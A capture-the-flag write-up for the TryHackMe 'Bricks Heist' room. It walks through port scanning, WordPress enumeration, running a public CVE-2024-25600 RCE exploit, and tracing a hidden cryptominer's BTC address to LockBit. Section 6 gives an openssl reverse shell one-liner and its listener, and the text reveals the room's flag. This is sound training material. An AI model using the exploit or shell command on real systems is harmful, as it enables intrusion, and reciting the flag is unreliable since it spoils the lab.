 # TryHack3M: Bricks Heist<!-- omit in toc -->

---

Machine by [tryhackme](https://tryhackme.com/p/tryhackme)

Tryhackme [link](https://tryhackme.com/r/room/tryhack3mbricksheist)

---

## Table of Content<!-- omit in toc -->

- [1. NMAP scan](#1-nmap-scan)
- [2. dirb](#2-dirb)
- [3. wpscan](#3-wpscan)
- [4. Exploit preparation](#4-exploit-preparation)
- [5. First flag](#5-first-flag)
- [6. Reverse Shell](#6-reverse-shell)
- [7. Service analysis](#7-service-analysis)
- [8. BTC address](#8-btc-address)
- [9. BTC address owner](#9-btc-address-owner)


---

## Tools Used:<!-- omit in toc -->

- Kali Linux
- NMAP


---

### 1. NMAP scan

Using `nmap -sV -p-5000 IP` we will enumerate all the first 5000 active ports and grab all the service banners.

![](./img/01.png)

Visiting the http website we can see that there is an error 405, wich means the url we are trying to access is blocked.

![](./img/02.png)

Since there is a 443 port listening i've tried to visit the https site, this is what we can see, nothing special on the source code and not telling us much:

![](./img/03.png)


### 2. dirb

Since we can access the website with https, using dirb tells us there is a wordpress installation because of the `wp-admin` url:

![](./img/04.png)


### 3. wpscan

Using wpscan we can see that there are three vulnerabilities, one of them is an cross-site scripting, and two Remote code execution:

![](./img/05.png)
![](./img/06.png)

### 4. Exploit preparation

After looking for the RCE vulnerability i've found this [github](https://github.com/Chocapikk/CVE-2024-25600), we'll clone it:

Install the requirements with pip:

![](./img/07.png)

<br>

And execute with `python3 exploit.py --url https://bricks.thm/`

![](./img/08.png)

<br>

### 5. First flag

Once inside we can see we're inside the `/data/www/default` directory, inside there's the first flag `THM{fl46_650c844110baced87e1606453b93f22a}`

![](./img/09.png)

<br>

I've tried to get the root db password by listing the contents of `wp-config.php`, but the password field is protected by the `lamp.sh` script

![](./img/10.png)

<br>

### 6. Reverse Shell

For comodity i'll get a reverse shell running with open-ssl:

` mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s`

![](./img/11.png)

The listener was:
`ncat --ssl -vv -l -p 4242`

![](./img/12.png)

### 7. Service analysis

We can list the running proceses with `systemctl --type=service --state=running` and `ubuntu.service` looks quite suspicious:

![](./img/13.png)

<br>

With `systemctl cat ubuntu.service` we can see asociated info with the service, the task that's being called is `nm-inet-dialog` wich is the name of the process.

![](./img/14.png)

<br>

If we list the contents of the parent's folder of the process there is only one file with read permissions `inet.conf`:

![](./img/15.png)

<br>

### 8. BTC address

As we can see we've found the process that's related to the miner, now we need to figure out the crypto address:

![](./img/16.png)

<br>

With [dencode.com](https://dencode.com/string) we'll decode the string three times:

The first conversión is to Hex:

![](img/17.png)

<br>

Then to Base64:

![](img/18.png)

<br>

And again Base64:

![](img/19.png)

The string is repeated and if we cut it in half we get the BTC address: `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`


With [dencode.com](https://dencode.com/string)

### 9. BTC address owner

First we'll lookup the address on [blockchain.com](https://www.blockchain.com/explorer/addresses/btc/bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa)

The first transaction was from `bc1q5jqgm7nvrhaw2rh2vk0dk8e4gg5g373g0vz07r`

![](img/20.png)

<br>

Afeter a google search we can see the next article:

![](img/21.png)

<br>

And the address is related to `LockBit`:

![](img/22.png)
